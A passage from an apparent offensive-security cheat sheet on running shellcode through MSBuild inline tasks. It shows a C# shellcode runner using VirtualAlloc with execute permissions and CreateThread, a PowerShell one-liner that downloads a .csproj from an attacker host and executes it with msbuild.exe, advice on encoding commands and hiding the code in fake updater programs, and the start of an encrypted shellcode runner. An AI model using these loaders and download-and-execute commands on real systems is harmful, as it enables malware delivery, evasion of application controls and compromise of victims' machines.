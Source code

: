 ```markup
          {
            byte[] shellcode = new byte[195] {};

              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Download & Execute:

```bash
Invoke-WebRequest "http://<ip>:<port>/<payload>.csproj" -OutFile "<outfile>.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\<outfile>.csproj
```

### MSBuild Powershell

Use [https://gist.github.com/xct/72cf74cc1187e1c088758bf8b4dc4086](https://gist.github.com/xct/72cf74cc1187e1c088758bf8b4dc4086) and encode PowerShell Command with [https://gchq.github.io/CyberChef/#recipe=Encode\_text('UTF-16LE%20(1200)')To\_Base64('A-Za-z0-9%2B/%3D')\&input=d2hvYW1p](https://gchq.github.io/CyberChef/#recipe=Encode\_text\('UTF-16LE%20\(1200\)'\)To\_Base64\('A-Za-z0-9%2B/%3D'\)\&input=d2hvYW1p) . The C# part of this code is also great for embedding into fake windows gui programs (e.g. updater).

### MSBuild Encrypted Shellcode

We can combine an encrypted shellcode runner with MSBuild:

```csharp
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        using System.Diagnostics;
        using System.IO;
        using System.Runtime.InteropServices;
        using System.Security.Cryptography;
        using System.Threading;

        public class ClassExample :  Task, ITask
        {         
```